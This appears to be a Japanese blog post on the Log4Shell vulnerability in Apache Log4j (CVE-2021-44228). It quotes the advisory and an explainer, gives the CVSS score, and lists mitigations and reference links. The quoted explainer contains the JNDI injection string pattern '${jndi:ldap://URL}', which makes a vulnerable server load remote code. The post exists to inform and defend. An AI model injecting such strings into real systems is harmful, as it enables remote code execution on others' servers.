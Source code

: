 +++
title = "Java 製 Logger “Log4j” の脆弱性について"
date =  "2021-12-11T15:22:43+09:00"
description = "2.15.0 以降にアップデートするか何らかの緩和措置を行うこと。"
image = "/images/attention/kitten.jpg"
tags  = [ "java", "security", "vulnerability", "logger" ]
pageType = "text"

[scripts]
  mathjax = false
  mermaidjs = false
+++

私の Twitter TL では昨日あたりからちらほら見かけるようになったが Java 製の事実上の標準 logger である Apache Log4j パッケージに脆弱性があったそうで，最新版 2.15.0 のアナウンスが出ている。
ちょっと大事になりそうな気がするので，この記事で覚え書きとして残しておく。

## [CVE-2021-44228]

{{< fig-quote type="markdown" title="Log4j – Apache Log4j Security Vulnerabilities" link="https://logging.apache.org/log4j/2.x/security.html" lang="en" >}}
{{% quote %}}Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default{{% /quote %}}.
{{< /fig-quote >}}

ちょっと分かりにくいかもしれないので，以下の解説記事も参考にどうぞ。

{{< fig-quote type="markdown" title="log4jの脆弱性について" link="https://ezoeryou.github.io/blog/article/2021-12-10-log4j.html" >}}
今回問題となっているのはJndi Lookupだ。これはJavaのJava Naming and Directory Interfaceによる変数名の置換で、ネットワーク越しに変数に相当する値を検索することができる。その中にLDAPも含まれる。例えば`"${jndi:ldap://someremoteclass}"`のようになる。

問題は、このURLに.を含めることにより、lg4jは任意のリモートのLDAPサーバーからjava classファイルをダウンロードして読み込んでしまうのだ。

なので悪意あるjava classファイルとそれをホストするLDAPサーバーを用意して、ターゲットとなるJavaで動きlog4jを使っているプログラムに`"${jndi:ldap://URL}"`の形でログ出力されるようにすれば、任意のコード実行が可能になる。
{{< /fig-quote >}}

ここまで言及されれば今回の脆弱性のヤバさが分かるだろう。
サービス側にログが吐かれるだけでこの脆弱性が発火する可能性があるのだ。
これは私達が目にしている各種サービスだけではなく，たとえばバックエンドで外部の Web API サービスを利用しているのならそちらも考慮する必要がある。
あるいは，もしかしたら組込み製品でアプリケーションを Java で組んでいるかもしれない。

Apache Log4j はこの脆弱性の CVSS 評価値を

- `CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`
- 深刻度: 緊急 (Score: 10)

| 基本評価基準 | 評価値 |
|--------|-------|
| 攻撃元区分 | ネットワーク |
| 攻撃条件の複雑さ | 低 |
| 必要な特権レベル | 不要 |
| ユーザ関与レベル | 不要 |
| スコープ | 変更あり |
| 機密性への影響 | 高 |
| 完全性への影響 | 高 |
| 可用性への影響 | 高 |

と見積もっている。

一応，サービス側の緩和措置も示されているので「すぐに対応できないよー」という場合は参考にするといいだろう。

{{< fig-quote type="markdown" title="Log4j – Apache Log4j Security Vulnerabilities" link="https://logging.apache.org/log4j/2.x/security.html" lang="en" >}}
{{% quote %}}In releases >=2.10, this behavior can be mitigated by setting either the system property `log4j2.formatMsgNoLookups` or the environment variable `LOG4J_FORMAT_MSG_NO_LOOKUPS` to `true`. For releases from 2.0-beta9 to 2.10.0, the mitigation is to remove the `JndiLookup` class from the classpath: `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`{{% /quote %}}.
{{< /fig-quote >}}

とりあえずシステム・プロパティまたは環境変数で対応って感じかねぇ。

アップデートは計画的に。

## ブックマーク

- [Remote code injection in Log4j · CVE-2021-44228 · GitHub Advisory Database · GitHub](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q)
- [Oracle Security Alert Advisory - CVE-2021-44228](https://www.oracle.com/security-alerts/alert-cve-2021-44228.html)
- [“Log4Shell” Java vulnerability – how to safeguard your servers – Naked Security](https://nakedsecurity.sophos.com/2021/12/10/log4shell-java-vulnerability-how-to-safeguard-your-servers/)
- [Log4shell software flaw threatens millions of servers as hackers scramble to exploit it - ABC News](https://www.abc.net.au/news/2021-12-11/log4shell-techs-race-to-fix-software-flaw/100692876)
- [Apache Log4j2 Security Bulletin (CVE-2021-44228)](https://aws.amazon.com/security/security-bulletins/AWS-2021-005/)
- [Cybereason/Logout4Shell: Use Log4Shell vulnerability to vaccinate a victim server against Log4Shell](https://github.com/Cybereason/Logout4Shell)

[CVE-2021-44228]: https://nvd.nist.gov/vuln/detail/CVE-2021-44228
<!-- eof -->
